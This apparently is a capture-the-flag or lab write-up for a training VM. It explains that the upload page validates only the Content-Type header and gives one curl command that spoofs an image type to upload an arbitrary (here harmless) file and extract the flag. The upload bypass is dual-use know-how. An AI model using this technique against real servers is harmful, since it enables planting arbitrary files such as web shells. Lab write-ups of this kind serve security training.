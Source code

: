 # Exploit 08 - file upload

On the upload page it's possible to upload images. Only the _type_ header of the upload request seems to be checked to ensure the upload is an image.
We can take advantage of that to upload any kind of files on the server.

```bash
curl -s -X POST "http://192.168.56.101/index.php?page=upload" -F "Upload=Upload" -F "uploaded=@"<(echo 'hello')";type=image/jpeg" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
